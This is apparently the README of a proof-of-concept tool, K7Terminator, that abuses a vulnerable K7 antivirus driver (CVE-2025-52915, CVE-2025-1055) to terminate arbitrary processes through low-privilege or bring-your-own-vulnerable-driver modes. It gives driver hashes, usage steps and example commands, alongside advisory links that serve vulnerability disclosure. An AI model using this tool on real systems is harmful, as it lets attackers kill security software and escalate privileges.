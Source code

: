 # K7Terminator
- PoC for **CVE-2025-52915 & CVE-2025-1055** in **K7RKScan.sys** (K7 Ultimate Security)
- Affects:
  - **Legacy builds (15.1.0.6–7)** -> low-privilege abuse
  - **Current build (23.0.0.10)** -> admin/BYOVD abuse
- **[Vendor advisory issued](https://support.k7computing.com/index.php?/solutions/view-article/Advisory-issued-on-2nd-Sep-2025)**
- Full write-up & details: **[CVE-2025-52915: A BYOVD Evolution Story](https://blacksnufkin.github.io/posts/BYOVD-CVE-2025-52915/)**

**Driver hashes:**
- `K7RKScan.sys` **15.1.0.6** SHA256: `B16E217CDCA19E00C1B68BDFB28EAD53B20ADEABD6EDCD91542F9FBF48942877`
- `K7RKScan.sys` **23.0.0.10** SHA256: `5C6CE55A85F5D4640BD1485A72D0812BC4F5188EE966C5FE334248A7175D9040`

---

**Usage**

Place the vulnerable `K7RKScan.sys` in the same folder as the executable.  
Provide a **process name** or **PID**.  
(The file must be named `K7RKScan.sys`.)

```
K7RKScan Process Terminator - LPE + BYOVD (CVE-2025-52915) PoC

Usage: K7Terminator.exe [OPTIONS] --mode <mode>

Options:
  -m, --mode <mode>      lpe (wait for service) or byovd (load driver) [possible values: lpe, byovd]
  -p, --pid <pid>        Target process ID
  -n, --name <name>      Target process name(s)
  -l, --looper           Keep targeting processes
  -d, --driver <driver>  Driver path (default: ./K7RKScan.sys)
  -h, --help             Print help
  -V, --version          Print version

EXAMPLES:
  K7Terminator.exe -m lpe -n notepad.exe
  K7Terminator.exe -m byovd -p 1234
```